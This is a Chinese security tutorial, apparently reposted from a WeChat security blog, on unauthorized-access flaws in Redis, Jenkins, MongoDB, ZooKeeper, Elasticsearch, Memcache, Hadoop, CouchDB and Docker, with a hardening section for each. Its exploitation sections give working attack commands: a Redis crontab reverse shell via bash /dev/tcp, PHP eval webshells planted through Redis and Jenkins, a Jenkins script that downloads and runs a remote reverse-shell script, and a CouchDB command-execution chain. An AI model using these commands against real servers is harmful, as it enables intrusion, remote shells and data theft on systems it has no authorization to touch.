原文 by [w2n1ck@安全脉搏](https://mp.weixin.qq.com/s/Q-an-kpdE7r8Q9bX2YNbTA)  

## 前言

今年5月，比特币勒索病毒 WannaCry 席卷全球，国内众多机构部门计算机系统瘫痪。根据之前应急响应的案例分析，以及一些安全报告统计，目前大部分的勒索病毒均利用未授权访问等通用漏洞进行植入、勒索，尤其是 Redis、MongoDB 等数据库的未授权访问漏洞尤其严重。  

## 0x01 介绍

未授权访问可以理解为需要安全配置或权限认证的地址、授权页面存在缺陷，导致其他用户可以直接访问，从而引发重要权限可被操作、数据库、网站目录等敏感信息泄露。  

目前主要存在未授权访问漏洞的有：NFS 服务，Samba 服务，LDAP，Rsync，FTP，GitLab，Jenkins，MongoDB，Redis，ZooKeeper，ElasticSearch，Memcache，CouchDB，Docker，Solr，Hadoop，Dubbo 等，本文主要介绍一些目前比较常用的一些服务的未授权访问，欢迎大家补充！  

## 0x02 Redis未授权访问

### 2.1 漏洞描述

Redis 因配置不当可以未授权访问。攻击者无需认证访问到内部数据，可导致敏感信息泄露，也可以恶意执行 flushall 来清空所有数据。如果 Redis 以 root 身份运行，可以给 root 账户写入 SSH 公钥文件，直接通过 SSH 登录受害服务器。  

### 2.2 漏洞利用

1、利用计划任务执行命令反弹shell  

在 redis 以 root 权限运行时可以写 crontab 来执行命令反弹shell  

先在自己的服务器上监听一个端口  

`nc -lvnp 4444 `  

然后执行命令:  
```
redis-cli -h 192.168.2.6
set x "\n* * * * * bash -i >& /dev/tcp/192.168.1.1/4444 0>&1\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```
  
2、写 ssh-keygen 公钥登录服务器  

在以下条件下，可以利用此方法  

Redis服务使用 root 账号启动  
服务器开放了 SSH 服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。

3、获取 web 服务的 webshell  

当 redis 权限不高时，并且服务器开着 web 服务，在 redis 有 web 目录写权限时，可以尝试往 web 路径写 webshell。  

执行以下命令  
```
config set dir /var/www/html/
config set dbfilename shell.php
set x "<?php @eval($_POST['caidao']);?>"
save
```
即可将 shell 写入 web 目录  
   


### 2.3 漏洞加固

可以配置 redis.conf 这个文件，在安装目录下  

1、默认只对本地开放  
`bind 127.0.0.1`  

2、添加登陆密码  
`requirepass www.secpulse.com`  

3、在需要对外开放的时候修改默认端口  
`port 2333`  

4、最后还可以配合iptables限制开放  

## 0x03 Jenkins 未授权访问

## 3.1 漏洞描述

默认情况下 Jenkins 面板中用户可以选择执行脚本界面来操作一些系统层命令，攻击者可通过未授权访问漏洞或者暴力破解用户密码等进脚本执行界面从而获取服务器权限。  

## 3.2 漏洞利用

1、Jenkins 未授权访问可执行命令  

http://www.secpulse.com:8080/manage  
http://www.secpulse.com:8080/script  
   


`println "ifconfig -a".execute().text` 执行一些系统命令  
   


直接 wget 下载 back.py 反弹 shell  
```
println "wget http://xxx.secpulse.com/tools/back.py -P /tmp/".execute().text
println "python /tmp/back.py 10.1.1.111 8080".execute().text
```
back.py 并不需要 root 权限  
    


不想反弹试试 Terminal Plugin  
    

2、Jenkins 未授权访问写 shell  

jenskins 是 java web 项目,我们用 java 的 File 类写文件  
```
new File("c://temp//secpulse.txt").write("""
1
2
3
""");
```
新建一个内容为1,2,3(每一行)的 1.txt 到 c 盘的 temp 文件夹,运行如下命令println “powershell dir c:\temp”.execute().text如果写成功,那么 secpulse.txt 就会在返回结果中!  

wget写webshell  
```
1. println "wget http://shell.secpulse.com/data/t.txt -o /var/www/html/secpulse.php".execute().text
2. new File("/var/www/html/secpulse.php").write('<?php @eval($_POST[s3cpu1se]);?>');
3. def webshell = '<?php @eval($_POST[s3cpu1se]);?>'
new File("/var/www/html/secpulse.php").write("$webshell");
4. def execute(cmd) {
def proc = cmd.execute()
proc.waitFor()
}
execute( [ 'bash', '-c', 'echo -n "<?php @eval($" > /usr/local/nginx_1119/html/secpulse.php' ] )
execute( [ 'bash', '-c', 'echo "_POST[s3cpu1se]);?>" >> /usr/local/nginx_1119/html/secpulse.php' ] )
//参数-n 不要在最后自动换行
```
   
Result: 0 表示成功写入 Result: 1 表示目录不存在或者权限不足 写入失败 Result: 2 表示构造有异常 写入失败  

具体其他详细利用方法参考相关文章。  

### 3.3 漏洞加固

1、禁止把Jenkins直接暴露在公网  

2、添加认证，设置强密码复杂度及账号锁定。  

## 0x04 MongoDB未授权访问  

### 4.1 漏洞描述

开启 MongoDB 服务时不添加任何参数时,默认是没有权限验证的,而且可以远程访问数据库，登录的用户可以通过默认端口无需密码对数据库进行增、删、改、查等任意高危操作。  

### 4.2 漏洞利用

   

### 4.3 漏洞加固

1、为MongoDB添加认证：  

1)MongoDB启动时添加--auth参数  

2)给MongoDB添加用户：  

`use admin` #使用admin库  

`db.addUser("root", "123456")` #添加用户名root密码123456的用户    

`db.auth("root","123456")` #验证下是否添加成功，返回1说明成功  

2、禁用HTTP和REST端口  

MongoDB 自身带有一个 HTTP 服务和并支持 REST 接口。在2.6以后这些接口默认是关闭的。mongoDB 默认会使用默认端口监听web服务，一般不需要通过 web 方式进行远程管理，建议禁用。修改配置文件或在启动的时候选择 –nohttpinterface 参数 nohttpinterface=false  

3、限制绑定IP  

启动时加入参数`--bind_ip 127.0.0.1`  

或在/etc/mongodb.conf文件中添加以下内容：`bind_ip = 127.0.0.1`  

## 0x05 ZooKeeper 未授权访问 

### 5.1 漏洞描述

Zookeeper 的默认开放端口是2181。Zookeeper 安装部署之后默认情况下不需要任何身份验证，造成攻击者可以远程利用 Zookeeper，通过服务器收集敏感信息或者在 Zookeeper 集群内进行破坏（比如：kill命令）。攻击者能够执行所有只允许由管理员运行的命令。  

### 5.2 漏洞利用

执行以下命令即可远程获取该服务器的环境： `echo envi | nc ip port`  

   

直接连接： `./zkCli.sh -server ip:port`  

   

### 5.3 漏洞加固

1、禁止把 Zookeeper 直接暴露在公网  

2、添加访问控制，根据情况选择对应方式（认证用户，用户名密码）  
 
3、绑定指定 IP 访问  

## 0x06 Elasticsearch 未授权访问  

### 6.1 漏洞描述

Elasticsearch 是一款 java 编写的企业级搜索服务。越来越多的公司使用 ELK 作为日志分析，启动此服务默认会开放9200端口，可被非法操作数据  

### 6.2 漏洞利用

漏洞检测：默认端口9200  

相当于一个API，任何人访问这个地址，就可以调用api，进行数据的增删改操作。  

`http://x.x.x.x:9200/_nodes`  

`http://x.x.x.x:9200/_river`  

   

### 6.3 漏洞加固

1、防火墙上设置禁止外网访问 9200 端口。  

2、使用 Nginx 搭建反向代理，通过配置 Nginx 实现对 Elasticsearch 的认证  

3、限制IP访问，绑定固定IP  

4、在config/elasticsearch.yml中为 9200 端口设置认证：  
```
http.basic.enabled true #开关，开启会接管全部HTTP连接
http.basic.user "admin" #账号
http.basic.password "admin_pw" #密码
http.basic.ipwhitelist ["localhost", "127.0.0.1"]
```
## 0x07 Memcache 未授权访问

### 7.1 漏洞描述

Memcached 是一套常用的 key-value 缓存系统，由于它本身没有权限控制模块，所以对公网开放的 Memcache 服务很容易被攻击者扫描发现，攻击者通过命令交互可直接读取 Memcached 中的敏感信息。  

### 7.2 漏洞利用

1、登录机器执行`netstat -an |more`命令查看端口监听情况。回显 0.0.0.0:11211 表示在所有网卡进行监听，存在 memcached 未授权访问漏洞。  

2、telnet <target> 11211，或nc -vv <target> 11211，提示连接成功表示漏洞存在  

     

### 7.3 漏洞加固

1、设置 memchached 只允许本地访问  

2、禁止外网访问 Memcached 11211 端口  

3、编译时加上–enable-sasl，启用SASL认证  

## 0x08 Hadoop 未授权访问

### 8.1 漏洞描述

由于服务器直接在开放了 Hadoop 机器 HDFS 的 50070 web 端口及部分默认服务端口，黑客可以通过命令行操作多个目录下的数据，如进行删除，下载，目录浏览甚至命令执行等操作，产生极大的危害。  

### 8.2 漏洞利用

主要 HDFS 和 MapReduce 的 WebUI 对应的服务端口。  


     
其中比较重要的是 DataNode 默认端口 50075 开放的话，攻击者可以通过 hdsf 提供的 restful api 对 hdfs 存储数据进行操作。  

restful api参考：http://hadoop.apache.org/docs/r1.0.4/webhdfs.html  

### 8.3 漏洞加固

1、如无必要，关闭 Hadoop Web 管理页面  

2、开启身份验证，防止未经授权用户访问  

3、设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口，详细端口列表如下：  

a)HDFS  

NameNode 默认端口 50070  

DataNode 默认端口 50075  

httpfs 默认端口14000  

journalnode 默认端口 8480 

b)YARN（JobTracker）  

ResourceManager 默认端口8088  

JobTracker 默认端口 50030  

TaskTracker 默认端口 50060  

c)Hue 默认端口 8080  

d)YARN（JobTracker）

master 默认端口 60010  

regionserver 默认端口60030  

e)hive-server2 默认端口 10000  

f)spark-jdbcserver 默认端口 10003  

## 0x09 CouchDB 未授权访问  

### 9.1 漏洞描述

CouchDB 默认在 5984 端口开放 Restful 的 API 接口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过 API 访问导致未授权访问。任何连接到服务器端口上的人，都可以调用相关 API 对服务器上的数据进行任意的增删改查，其中通过 API 修改 local.ini 配置文件，可进一步导致执行任意系统命令，获取服务器权限！  

### 9.2 漏洞利用

   

新增query_server配置，这里执行ifconfig命令  

`curl -X PUT 'http://x.x.x.x:5984/_config/query_servers/cmd' -d '"/sbin/ifconfig >/tmp/6666"'`  
新建一个临时表，插入一条记录  

   

`curl -X PUT 'http://x.x.x.x:5984/vultest'`  
   

`curl -X PUT 'http://x.x.x.x:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}' `   
调用query_server处理数据  
    


`curl -X POST 'http://x.x.x.x:5984/vultest/_temp_view?limit=11' -d '{"language":"cmd","map":""}' -H 'Content-Type: application/json'`  
   

当然你也可以直接执行其他命令，下载个其他什么的  

   
   

### 9.3 漏洞加固

1、指定CouchDB绑定的IP （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 文件中找到 “bind_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。注：修改后只有本机才能访问CouchDB。  

2、设置访问密码 （需要重启CouchDB才能生效） 在 /etc/couchdb/local.ini 中找到“[admins]”字段配置密码  

## 0x010 Docker 未授权访问 

### 10.1 漏洞描述

Docker Remote API 是一个取代远程命令行界面（rcli）的REST API。通过 docker client 或者 http 直接请求就可以访问这个 API，通过这个接口，我们可以新建 container，删除已有 container，甚至是获取宿主机的 shell

### 10.2 漏洞利用

http://192.168.198.130:2375/v1.25/images/json 可以获取到所有的 images 列表  

http://host:2375/containers/json  

会返回服务器当前运行的 container 列表，和在 docker CLI 上执行 docker ps 的效果一样，过 Post 包我们还可以新建、开启和关闭容器，其他操作比如拉取 image 等操作也都可以通过 API 调用完成。  
```
$ curl http://10.10.10.10:2375/containers/json
[]

docker -H=tcp://10.10.10.10:2375 ps         
CONTAINER ID        IMAGE               COMMAND             CREATED             STATUS              PORTS               NAMES
```
